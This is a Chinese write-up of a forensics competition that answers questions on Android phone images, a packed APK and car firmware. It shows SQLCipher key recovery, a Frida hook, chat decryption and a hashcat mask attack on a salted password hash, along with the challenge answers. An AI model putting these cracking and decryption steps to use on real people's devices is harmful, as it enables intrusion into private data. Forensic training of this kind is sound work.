



## 答案速览

以下仅列出本次对话中已经按新 skill 规范化到正式 WP 的题号。

| 题号 | 答案 | 状态 |
| --- | --- | --- |
| 14 | `com.example.predictor` | 已确认 |
| 16 | `com.socialchat.social_chat_app` | 已确认 |
| 17 | `social_chat.db` | 已确认 |
| 18 | `FlutterSharedPreferences.xml` | 已确认 |
| 19 | `Pgs-dbw1776853545473Good` | 已确认 |
| 20 | `AES` | 已确认 |
| 21 | `a3f8d9c2e1b4h7g6k9m2n5p8q1r4t7w` | 已确认 |
| 22 | `com.jinghong.notebookkssjh` | 已确认 |
| 23 | `mb202623` | 已确认，已用真实登录成功闭环 |
| 24 | `5` | 已确认 |
| 25 | `state_bits` | 已确认 |
| 27 | `deadlive_solologd` | 高置信度碎片重组 |
| 28 | `HUAWEI WATCH GT 5` | 已确认 |
| 29 | `37` | 已确认：手机隐藏账本身份证号交叉证据；手表块待补强 |
| 30 | 待确认 | 尚未从手表关键数据块解出可提交答案 |
| 31 | 待确认 | 尚未解出跑步记录明文或结构化里程字段 |
| 32 | 待确认 | 尚未解出压力日统计或原始压力序列 |
| 33 | 待确认 | 尚未解出心率序列或平均值字段 |
| 34 | 待确认 | 尚未解出该日期运动地点、运动类型或室内外字段 |

## 一、手机取证

### 待归题号：短视频应用安装数量

题目：手机总共安装了多少款短视频应用？

检材来源：`K:\黄志远\phone.E01`（Android 手机镜像）

证据来源：`C:\Users\glj07\Desktop\Codex工作区\Writeup\Forensic\2026盘古石杯初赛团体\黄志远phone\exports\android\packages.xml`、`packages.list`

方法：检索 Android 包管理记录中的已安装包名，并按题目口径只统计抖音、快手这类主流短视频应用。

```powershell
Select-String -LiteralPath exports/android/packages.xml,exports/android/packages.list -Pattern 'com\.ss\.android\.ugc\.aweme|com\.kuaishou\.nebula|com\.smile\.gifmaker|tv\.danmaku\.bili'
```

关键摘录：

```text
com.ss.android.ugc.aweme.lite
com.ss.android.ugc.aweme
com.kuaishou.nebula
com.smile.gifmaker
tv.danmaku.bili
```

推理：`com.ss.android.ugc.aweme.lite`、`com.ss.android.ugc.aweme`、`com.kuaishou.nebula`、`com.smile.gifmaker` 分别对应抖音极速版、抖音、快手极速版、快手；`tv.danmaku.bili` 属于 Bilibili 视频平台，不按本题“短视频应用”口径计入。

结论：

```text
4
```

### 待归题号：gptos.intelligence.assistant 首次打开时间

题目：`gptos.intelligence.assistant` 应用首次打开应用的时间是？

检材来源：`K:\黄志远\phone.E01`

证据来源：`C:\Users\glj07\Desktop\Codex工作区\Writeup\Forensic\2026盘古石杯初赛团体\黄志远phone\exports\android\usagestats\daily\1776388876473`

方法：从 Android UsageStats daily 文件中查找该包名首次 `type=1` 前台事件，使用文件基准时间加事件相对毫秒数换算为北京时间。

关键摘录：

```xml
<event time="19103003" package="gptos.intelligence.assistant" class="app.anyclaw.MainActivity" flags="0" type="1" />
```

时间换算：

```text
1776388876473 + 19103003 = 1776407979476
Asia/Shanghai = 2026-04-17 14:39:39
```

结论：

```text
2026-04-17-14:39:39
```

### 题目4：gptos.intelligence.assistant 攻击主机数量

题目：使用 `gptos.intelligence.assistant` 攻击过多少台主机？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\gptos.intelligence.assistant\files\rootfs\usr\local\bin\openclaw`、`exports\openclaw-gptos\package.json`、`exports\android\appdata\com.discord\files\kv-storage\@account.1457974771206852664\a`

方法：先确认 `gptos.intelligence.assistant` 内置 OpenClaw 环境，再用手机侧 Discord 控制消息作为操作链记录；按应用安装和首次打开时间过滤目标主机。

关键摘录：

```text
openclaw -> /usr/local/lib/node_modules/openclaw/openclaw.mjs
messages0 rowid 39: 要求对 192.168.61.135 进行渗透提权
messages0 rowid 106: 对 192.168.61.135 执行 ping、nmap、gobuster、sqlmap、hydra 等命令
```

推理：Discord 不是本题所问的攻击应用，而是手机端控制/沟通链证据；攻击环境来自 `gptos.intelligence.assistant` 内置的 OpenClaw。`192.168.1.10`、`192.168.1.16` 的扫描记录发生在 `2026-04-11`，早于该应用安装和首次打开，不计入“使用此应用攻击”的主机。与应用使用时段闭合的攻击目标只有 `192.168.61.135`。

结论：

```text
1
```

### 题目5：控制 PC agent 的应用

题目：使用哪款应用控制了其 PC 的 agent 工具？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.discord\files\kv-storage\@account.1457974771206852664\a`

方法：解析 Discord kv-storage 数据库中的 `messages0.data` JSON blob，读取 pairing 消息和 approve 命令。

关键摘录：

```text
messages0 rowid 15:
Here's your pairing code: 3EXEQ5R8
hermes pairing approve discord 3EXEQ5R8
```

推理：题目给出的 `[答案格式：wechat]` 只是格式示例；配对命令中明确写出控制应用为 `discord`。

结论：

```text
discord
```

### 题目6：控制应用版本

题目：接上题，使用这款应用的版本是多少？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.discord\shared_prefs\CacheStore.xml`、`exports\android\packages.xml`

方法：从 Discord 偏好设置和 Android 安装记录读取客户端版本。

关键摘录：

```text
CacheStore.xml: client_version 311.20 - rn
packages.xml: version=311020
```

结论：

```text
311.20
```

### 题目7：控制应用登录用户名

题目：接上题，登录的用户名是什么？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.discord\shared_prefs\DiscordNotificationClient.xml`、`CacheStore.xml`

方法：读取 Discord 通知客户端与缓存中的用户信息。

关键摘录：

```text
username test901234.
user id 1457974771206852664
```

推理：`test901234.` 末尾的点号属于原始用户名内容，需要保留。

结论：

```text
test901234.
```

### 题目8：PC agent 配对码

题目：该应用与 PC 端 agent 的配对码是什么？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.discord\files\kv-storage\@account.1457974771206852664\a`

方法：解析 Discord `messages0.data` 中的 pairing code 消息。

关键摘录：

```text
Here's your pairing code: 3EXEQ5R8
hermes pairing approve discord 3EXEQ5R8
```

结论：

```text
3EXEQ5R8
```

### 题目9：扫描 IP 数量

题目：该应用共对几个 IP 进行扫描？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.discord\files\kv-storage\@account.1457974771206852664\a`

方法：解析 Discord `messages0.data` 控制消息，提取扫描/任务消息中的 IPv4 地址并去重。

关键摘录：

```text
192.168.1.10
192.168.1.16
192.168.61.135
```

结论：

```text
3
```

### 题目10：暴力破解工具数量

题目：该应用总共调用了几个暴力破解工具？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.discord\files\kv-storage\@account.1457974771206852664\a`

方法：解析 Discord 控制消息中的终端命令，统计暴力破解工具名去重数量。

关键摘录：

```text
messages0 rowid 106: hydra
```

推理：暴力破解相关命令中只出现 `hydra` 这一类工具。

结论：

```text
1
```

### 题目11：内部通联工具账号登录密码

题目：使用其内部通联工具进行沟通，其账号的登陆密码是多少？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.socialchat.social_chat_app\shared_prefs\FlutterSharedPreferences.xml`、`databases\social_chat.db`

方法：读取 Flutter SharedPreferences 中的数据库口令，再使用 SQLCipher key 打开 `social_chat.db`，核对 `user` 表中的 `password_hash` 和 `password_salt`。注意 `flutter.db_password` 是数据库口令，不是账号登录密码。

关键摘录：

```xml
<string name="flutter.db_password">Pgs-dbw1776839203359Good</string>
```

```sql
PRAGMA key='s-dbw1776839203359Goo';
PRAGMA cipher_compatibility=4;
SELECT id,username,nickname,password_hash,password_salt FROM user;
```

```text
usr_heiked|huangzhiyuan|黄志远|fc29eb768c139c05c0bfcb697d9b26d194878a66451b3ab91b202e9710874a63|a3f8d9c2e1b4h7g6k9m2n5p8q1r4t7w
```

结论：账号登录密码仍需按应用口令算法对 `password_hash/password_salt` 继续破解复核；当前不把 `Pgs-dbw1776839203359Good` 当作最终答案。

### 题目12：发给代号“军师”的文件数量

题目：一共发送过几个文件给代号军师的嫌疑人？

检材来源：`K:\黄志远\phone.E01`

证据来源：`黄志远phone\exports\android\appdata\com.socialchat.social_chat_app\databases\social_chat.db`、`exports\blutter_socialchat\asm\social_chat_app\data\database\database_helper.dart`

方法：反编译确认数据库口令由 `flutter.db_password` 截取得到，使用 `s-dbw1776839203359Goo` 打开 SQLCipher 数据库，联查 `message_file`、`message`、`conversation`。

```sql
SELECT mf.id,mf.message_id,m.sender_id,m.conversation_id,c.name,mf.file_name,mf.file_path
FROM message_file mf
JOIN message m ON mf.message_id=m.id
JOIN conversation c ON c.id=m.conversation_id
WHERE m.sender_id='usr_heiked' AND c.name='军师';
```

关键摘录：

```text
att_msg_000167,msg_000167,usr_heiked,conv_d_usr_heiked_usr_junshi_1776759221637,军师,木马.zip,storage/emulated/0/Download/木马.zip
att_msg_000181,msg_000181,usr_heiked,conv_d_usr_heiked_usr_junshi_1776759221637,军师,木马_v1.2.zip,storage/emulated/0/Download/木马_v1.2.zip
```

推理：会话名为 `军师`，发送者 `usr_heiked` 对应该手机用户，共两条文件附件记录。

结论：

```text
2
```

### 题目14：筛选优质客户的应用包名

题目：使用筛选优质客户的应用包名是什么？

检材来源：`K:\方俊郎\phone.E01`

证据来源：`C:\Users\glj07\Desktop\Codex工作区\Writeup\Forensic\2026盘古石杯初赛团体\方俊郎phone\exports\android\packages.xml`、`packages.list`

方法：检索 Android 包管理记录，并结合 APK 逆向中的应用标签 `优质客户AI判定` / `优质客户预测` 确认为题目应用。

```powershell
Select-String -LiteralPath exports/android/packages.xml,exports/android/packages.list -Pattern 'com\.example\.predictor'
```

关键摘录：

```text
packages.xml 第 1318 行：<package name="com.example.predictor" ...>
packages.list 第 32 行：com.example.predictor 10087 1 /data/user/0/com.example.predictor
```

结论：

```text
com.example.predictor
```

### 待归题号：内部通联工具加入群数量

题目：使用其内部通联工具时，共加入过几个群？

检材来源：`K:\方俊郎\phone.E01`

证据来源：`方俊郎phone\exports\socialchat\social_chat.db`、`FlutterSharedPreferences.xml`

方法：`FlutterSharedPreferences.xml` 中确认当前用户为 `usr_caishangwang`。数据库口令按 App 逻辑由 `Pgs-dbw1776826167125Good` 截取为 `s-dbw1776826167125Goo` 后，用 SQLCipher 打开并联查群会话。

```sql
SELECT COUNT(*) AS groups_joined
FROM conversation_member cm
JOIN conversation c ON cm.conversation_id=c.id
WHERE cm.user_id='usr_caishangwang' AND c.type='G';
```

关键摘录：

```text
2
conv_g_技术部群_usr_caishangwang|G|技术部群
conv_g_话务组群_usr_caishangwang|G|话务组群
```

结论：

```text
2
```

### 待归题号：通过物联网设备漏洞获得多少用户信息

题目：通过物联网设备漏洞，共获得多少用户信息？

检材来源：`K:\方俊郎\phone.E01`

证据来源：`方俊郎phone\exports\socialchat\messages_decrypted.csv`、原始库 `social_chat.db`

方法：从 `user.config_data` 取出 `enc_key`、`enc_iv`，对 `message.content` 执行 AES-CBC/PKCS7 解密，再检索 `漏洞`、`IoT`、`高端用户`、`扫地机器人`、`安防摄像头` 等关键词。

关键摘录：

```text
msg_000055 | 宰相 | usr_caishangwang | 1708826400000 | 宰相，智能家居漏洞利用已经成熟了。
msg_000057 | 宰相 | usr_caishangwang | 1708826640000 | 已经拿到32个高端用户的数据，主要是扫地机器人和安防摄像头。
```

推理：`msg_000057` 明确给出 `32个高端用户的数据`，并由前后文 `IoT工具包`、`扫地机器人`、`安防摄像头` 闭合到题目所说的物联网设备漏洞。

结论：

```text
32
```

### 题目16：内部通联工具包名

题目：跟其犯罪团伙人员内部通联工具包名是？

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.socialchat.social_chat_app\`、`exports\data\app\com.socialchat.social_chat_app-0mI0c1YbKCxv1TVxSgK2ZA==\base.apk`

方法：枚举镜像导出的 Android 应用私有目录和 APK 安装目录。

关键摘录：

```text
exports\data\data\com.socialchat.social_chat_app\
exports\data\app\com.socialchat.social_chat_app-0mI0c1YbKCxv1TVxSgK2ZA==\base.apk
```

结论：

```text
com.socialchat.social_chat_app
```

### 题目17：内部通联 app 聊天数据库名称

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.socialchat.social_chat_app\databases\social_chat.db`

方法：枚举内部通联应用私有目录下的 `databases` 目录。

关键摘录：

```text
exports\data\data\com.socialchat.social_chat_app\databases\social_chat.db
```

结论：

```text
social_chat.db
```

### 题目18：内部通联 app 聊天数据库密码保存文件

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.socialchat.social_chat_app\shared_prefs\FlutterSharedPreferences.xml`

方法：读取 Flutter SharedPreferences，定位 `flutter.db_password` 键。

关键摘录：

```xml
<string name="flutter.db_password">Pgs-dbw1776853545473Good</string>
```

结论：

```text
FlutterSharedPreferences.xml
```

### 题目19：内部通联 app 聊天数据库密码

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.socialchat.social_chat_app\shared_prefs\FlutterSharedPreferences.xml`

方法：读取 `flutter.db_password` 字段；注意该题问保存的数据库密码原值，不是 SQLCipher 实际截取后的 key。

关键摘录：

```xml
<string name="flutter.db_password">Pgs-dbw1776853545473Good</string>
```

结论：

```text
Pgs-dbw1776853545473Good
```

### 题目20：内部通联 app 聊天数据加密算法

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\app\com.socialchat.social_chat_app-0mI0c1YbKCxv1TVxSgK2ZA==\base.apk`

方法：对 Flutter AOT 库和 APK native library 字符串检索 AES、PBKDF、SQLCipher 关键词。

关键摘录：

```text
impl.block_cipher.aes
AESMode
PBKDF2KeyDerivator
libsqlcipher.so
```

结论：

```text
AES
```

### 题目21：内部通联 app 用户密码盐值

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.socialchat.social_chat_app\databases\social_chat.db`

方法：通过 Frida Hook `libsqlcipher.so!sqlite3_key` 得到真实开库 key `s-dbw1776853545473Goo`，读取 `user` 表。

关键摘录：

```text
username=zhouwenjie
password_hash=5d85b77d7d6d1a76cd589c3ba21d1839b1dd28568e39f1d2facc3a1b7d2e8bcb
password_salt=a3f8d9c2e1b4h7g6k9m2n5p8q1r4t7w
```

结论：

```text
a3f8d9c2e1b4h7g6k9m2n5p8q1r4t7w
```

### 题目22：记录内部通联 app 登录密码提示的应用包名

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.jinghong.notebookkssjh\databases\NotePal.db`、`exports\data\media\0\Android\data\com.jinghong.notebookkssjh\files\20260423_100403_179.md`

方法：查询 `NotePal.db` 的 `gt_note` 表并读取关联附件。

关键摘录：

```text
应用包名：com.jinghong.notebookkssjh
title = mima
preview_content = 英文*2 +数字*6
附件内容：英文*2 +数字*6
```

结论：

```text
com.jinghong.notebookkssjh
```

### 题目23：内部通联 app 登录密码

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.socialchat.social_chat_app\databases\social_chat.db`、`FlutterSharedPreferences.xml`

方法：动态 Hook 得到 SQLCipher key 后读取 `user.password_hash/password_salt`；用测试账号复现 App 口令算法为 `sha256(sha256(password + salt).hexdigest())`，再用 hashcat `-m 20730` 跑掩码 `?l?l?d?d?d?d?d?d`。这一步不是从标题 `mima` 机械取 `mi`，而是让目标哈希反向闭合出唯一候选，并再用模拟器登录验证。

关键摘录：

```text
sqlite3_key n=21
hex=732d64627731373736383533353435343733476f6f
utf8=s-dbw1776853545473Goo
username=zhouwenjie
password_salt=a3f8d9c2e1b4h7g6k9m2n5p8q1r4t7w
password_hash=5d85b77d7d6d1a76cd589c3ba21d1839b1dd28568e39f1d2facc3a1b7d2e8bcb
```

```powershell
hashcat.exe -m 20730 -a 3 C:\Users\glj07\Desktop\zhou_mode20730.hash '?l?l?d?d?d?d?d?d'
```

```text
5d85b77d7d6d1a76cd589c3ba21d1839b1dd28568e39f1d2facc3a1b7d2e8bcb:a3f8d9c2e1b4h7g6k9m2n5p8q1r4t7w:mb202623
```

实机复核截图：


结论：

```text
mb202623
```

### 题目24：内部通联 app 中删除了几条聊天记录

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\data\com.socialchat.social_chat_app\databases\social_chat.db`、`libapp.so`

方法：静态分析确认 `message` 表存在 `state_bits` 字段和 `_buildDeletedMessage` 删除消息展示逻辑；用真实数据库 key 统计 `message.state_bits`。

```sql
PRAGMA key='s-dbw1776853545473Goo';
SELECT state_bits, COUNT(*) AS cnt
FROM message
GROUP BY state_bits;
```

关键摘录：

```text
state_bits=0  cnt=242
state_bits=1  cnt=5
```

推理：`conversation_member.is_deleted` 用于会话列表过滤；题目问“聊天记录/聊天数据删除”，应以 `message` 表的删除展示状态位为准。

结论：

```text
5
```

### 题目25：聊天数据库中显示聊天数据删除的字段

检材来源：`K:\周文杰\Image.zip`

证据来源：`周文杰Image\exports\data\app\com.socialchat.social_chat_app-0mI0c1YbKCxv1TVxSgK2ZA==\lib\x86_64\libapp.so`、`social_chat.db`

方法：结合反编译 UI 逻辑与数据库字段。`message.state_bits=1` 触发撤回/删除展示；`conversation_member.is_deleted` 只负责会话列表隐藏。

关键摘录：

```sql
state_bits INTEGER DEFAULT 0
```

```text
_buildDeletedMessage(): 删除/撤回消息展示逻辑
message.dart: Message.fromMap 中 field_4f 来源为 state_bits
```

结论：

```text
state_bits
```

### 待归题号：文件备份服务器 IP 地址

题目：分析林小婉手机检材，这个应用隐藏的数据中，文件备份服务器的 IP 地址是多少？

检材来源：`C:\Users\glj07\Desktop\林小婉手机.zip`

证据来源：`林小婉手机\evidence\data_data\com.jinritoutiao.news\files\vault\vault_data.jth2`、`林小婉手机\exports\vault_data_decrypted.json`

位置：`c2` 数组第 3 项，`name=文件备份服务器`

方法：解密 `vault_data.jth2` 后，在 JSON 中检索 `文件备份服务器`。

关键摘录：

```text
name=文件备份服务器, address=192.168.1.200, port=22, protocol=SFTP
```

结论：

```text
192.168.1.200
```

### 待归题号：内部通联中被撤回的消息内容

题目：分析林小婉手机检材，发现内部通联中财神撤回了一条消息，这个消息的内容是？

检材来源：`C:\Users\glj07\Desktop\林小婉手机.zip`

证据来源：`林小婉手机\evidence\data_data\com.socialchat.social_chat_app\databases\social_chat.db`、`林小婉手机\evidence\data_data\com.socialchat.social_chat_app\shared_prefs\FlutterSharedPreferences.xml`、`林小婉手机\evidence\data_data\com.google.android.inputmethod.latin\databases\gboard_clipboard.db`、`林小婉手机\exports\blutter_socialchat\asm\social_chat_app\presentation\widgets\message_bubble.dart`

位置：`message` 表 `id=msg_000317`；会话 `conv_d_usr_zhanggui_usr_caishen_1776766716239` / `name=财神`；`sender_id=usr_caishen`；`state_bits=1`；时间 `1721404800000`（2024-07-20 00:00:00 +08:00）

方法：使用确认后的 SQLCipher key 打开聊天库，筛选发送者 `usr_caishen` 且 `state_bits=1` 的消息；再用 `user.config_data` 中的 AES 参数解密 `content`。

```sql
PRAGMA key='s-dbw1776826167125Goo';

SELECT
  m.id,
  c.name,
  m.conversation_id,
  m.sender_id,
  m.message_type,
  m.status,
  m.content,
  m.send_at,
  m.state_bits
FROM message m
LEFT JOIN conversation c ON c.id = m.conversation_id
WHERE m.sender_id = 'usr_caishen' AND m.state_bits = 1;
```

关键摘录：

```text
msg_000317, 财神, usr_caishen, state_bits=1
content=yZkcJsou9vMkGQeq0fTAPrrW2Qrb/9d8IDVTQNYRbBUIB5xgKJ+73szpr/vFyA0aj34wPcH1yJ/+VtycHtc2Tw==
enc_key=kOpoJlwv0/HyhcJkNDUHxtABzZqAl6wjFXPUtzX9aZo=
enc_iv=zm0YA3yx57rHy2fYiQm0gg==
解密结果：把23年10月到24年6月的账本整理一下，发给我。
```

撤回标记复核：`message_bubble.dart` 中消息撤回标记为 1 时调用 `_buildRecalledMessage()`；`Message.fromMap` 中该标记来源为数据库字段 `state_bits`。

结论：

```text
把23年10月到24年6月的账本整理一下，发给我。
```

### 待归题号：账本打开密码

题目：分析林小婉手机检材，发现了账本，账本打开密码是什么？

检材来源：`C:\Users\glj07\Desktop\林小婉手机.zip`

证据来源：`林小婉手机\evidence\data_data\com.jinritoutiao.news\files\vault\vault_data.jth2`、`林小婉手机\exports\vault_data_decrypted.json`

位置：`password` 数组第 7 项；`core` 数组第 6 项

方法：解密隐藏数据后检索 `龙腾项目账本` / `DragonTeng`。

关键摘录：

```text
website=龙腾项目账本
password=DragonTeng@2024#$
notes=账单复合.png打开密码
```

结论：

```text
DragonTeng@2024#$
```

## 二、APK取证

### 待归题号：加密数据库文件名

题目：筛选优质客户应用将用户查询记录存储在一个加密的本地数据库中。请问该加密数据库的文件名是什么？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`C:\Users\glj07\Desktop\Codex工作区\Writeup\Forensic\2026盘古石杯初赛团体\APK取证`  
关键文件：`exports/com.example.predictor/unpacked_payload/smali_unpacked/classes3/com/example/predictor/ChatDatabaseHelper.smali`

关键摘录：

```text
DATABASE_NAME = "chat_history.db"
```

结论：`chat_history.db`

### 待归题号：数据库加密密钥派生算法

题目：该应用使用了哪种密钥派生算法来生成数据库加密密钥？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`KeyDeriver.smali`

关键摘录：

```text
SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256")
```

结论：`PBKDF2WithHmacSHA256`

### 待归题号：密钥派生迭代次数

题目：该应用的密钥派生过程中使用了多少次迭代运算？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`KeyDeriver.smali`、`app_config.xml`

关键摘录：

```text
PBKDF2_ITERATIONS = 0x2710
key_iterations value="10000"
```

结论：`10000`

### 待归题号：动态调试工具探测端口

题目：该应用检测动态调试工具时探测了哪个本地端口号？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`ShellApplication.smali`

关键摘录：

```text
127.0.0.1:27042
```

结论：`27042`

### 待归题号：第一个盐值片段

题目：该应用密钥由多个“盐值片段”拼接后派生而来。请问第一个盐值片段的具体内容是什么？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`KeyDeriver.smali`

关键摘录：

```text
salt part 1 = "Pr3d1ct0r"
```

结论：`Pr3d1ct0r`

### 待归题号：密钥派生异常备用密钥

题目：当密钥派生过程出现异常时，应用会使用一个硬编码的备用密钥。请问该备用密钥的完整内容是什么？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`KeyDeriver.smali`

关键摘录：

```text
fallback key = "f4ll8ack_k3y_2024_pr3d1ct0r"
```

结论：`f4ll8ack_k3y_2024_pr3d1ct0r`

### 待归题号：Hook 框架检测类名

题目：该应用的安全检测模块通过检查一个特定的类名来判断设备是否安装了 Hook 框架。请问被检测的完整类名是什么？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`SecurityChecker.smali`

关键摘录：

```text
de.robv.android.xposed.XposedBridge
```

结论：`de.robv.android.xposed.XposedBridge`

### 待归题号：密钥校验值偏好设置键名

题目：该应用在偏好设置文件中存储了一个密钥校验值。请问存储该校验值的键名是什么？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`app_config.xml`、`KeyDeriver.smali`

关键摘录：

```xml
<string name="db_integrity_check">...</string>
```

结论：`db_integrity_check`

### 待归题号：对话记录数据表名

题目：该应用加密数据库中存储对话记录的数据表名是什么？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\chat_history.db`

关键摘录：

```sql
SELECT name FROM sqlite_master WHERE type='table';
-- chat_records
```

结论：`chat_records`

### 待归题号：第三个盐值片段

题目：该应用中的第三个盐值片段是通过逐字符拼接生成的。请问该片段拼接后的完整内容是什么？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`KeyDeriver.smali`

关键摘录：

```text
salt part 3 = "X9kZ!qW3"
```

结论：`X9kZ!qW3`

### 待归题号：内存加载 DEX 的私有方法

题目：若选手希望通过 Frida 动态拦截明文的 DEX 字节数组，应该 Hook 该应用壳的哪个私有方法？

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`ShellApplication.smali`

关键摘录：

```text
private initDexFromMemory(...)
```

结论：`initDexFromMemory`

### 待归题号：壳解密密钥明文

题目：壳代码解密密钥由 3 个字符串片段混淆拼接而成。请还原 3 个片段拼接合并后的完整密钥明文。

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`ShellApplication.smali`

关键摘录：

```text
Sh3ll + _L0ad3r_ + K3y_2024!
```

结论：`Sh3ll_L0ad3r_K3y_2024!`

### 待归题号：反调试进程自杀方法签名

题目：应用会因通用脱壳工具动态附加而闪退。请写出触发进程自杀所调用的完整 Java 系统方法签名。

检材来源：`K:\方俊郎\phone.E01`  
证据来源：`APK取证\exports\com.example.predictor\unpacked_payload`  
关键文件：`ShellApplication.smali`

关键摘录：

```text
java.lang.System.exit
```

结论：`java.lang.System.exit`

### 待归题号：隐藏大量信息的应用程序名称

题目：分析林小婉手机检材，发现有个应用隐藏了很多信息，目前已经找到这个应用，它的程序名称是？

检材来源：`C:\Users\glj07\Desktop\林小婉手机.zip`、`C:\Users\glj07\Desktop\1778310207366_9eee4f1c.apk`

证据来源：`1778310207366_9eee4f1c.apk`

方法：使用 `aapt dump badging` 读取应用包名与显示标签。

```bash
wsl aapt dump badging '/mnt/c/Users/glj07/Desktop/1778310207366_9eee4f1c.apk'
```

关键摘录：

```text
package: name='com.jinritoutiao.news'
application-label:'今日头条'
```

结论：

```text
今日头条
```

### 待归题号：安全加密 PIN 码

题目：分析林小婉手机检材，这个应用有一个安全加密的 PIN 码，它是多少？

检材来源：`C:\Users\glj07\Desktop\林小婉手机.zip`、`C:\Users\glj07\Desktop\1778310207366_9eee4f1c.apk`

证据来源：`林小婉手机\exports\jadx\sources\com\jinritoutiao\news\NavigationKt.java`

位置：第 122、125、134、135、381 行

方法：定位 `PBKDF2WithHmacSHA256` 校验逻辑，按提示“女儿生日”生成 8 位日期候选并复现哈希。

关键摘录：

```text
salt_prefix=JinriPIN_Salt_
algorithm=PBKDF2WithHmacSHA256
iterations=10000
key_length=256
expected=7e881d49322271f3dd4fa24846a5cc53d1e0506b46007caa4b27f1416b27b54c
hint=女儿生日
FOUND 20150412
```

结论：

```text
20150412
```

### 待归题号：标签数据中 notes 字段含义

题目：分析林小婉手机检材，这个应用隐藏的数据中，每个标签数据里，notes 字段表示多少？

检材来源：`C:\Users\glj07\Desktop\林小婉手机.zip`、`C:\Users\glj07\Desktop\1778310207366_9eee4f1c.apk`

证据来源：`林小婉手机\exports\jadx\sources\com\jinritoutiao\news\ui\vault\VaultScreenKt.java`

位置：第 698、887、1296、1535、1724、1913 行

方法：检索隐藏数据页面中 `notes` 字段的渲染文本。

```powershell
rg -n '备注:|notes' exports\jadx\sources\com\jinritoutiao\news\ui\vault\VaultScreenKt.java
```

关键摘录：

```text
TextKt...("备注: " + ...getNotes()...)
```

结论：

```text
备注
```

## 三、物联网/车机取证

### 待归题号：BCM Crash Dump 碰撞瞬间大灯模式

检材来源：`K:\黄志远\car.E01`

证据来源：`黄志远car\exports\keyfiles\firmware\bcm_ecu.bin`

方法：对 BCM 固件碎片执行字符串检索。

```bash
strings -a exports/keyfiles/firmware/bcm_ecu.bin | grep -i CRASH_DUMP
```

关键摘录：

```text
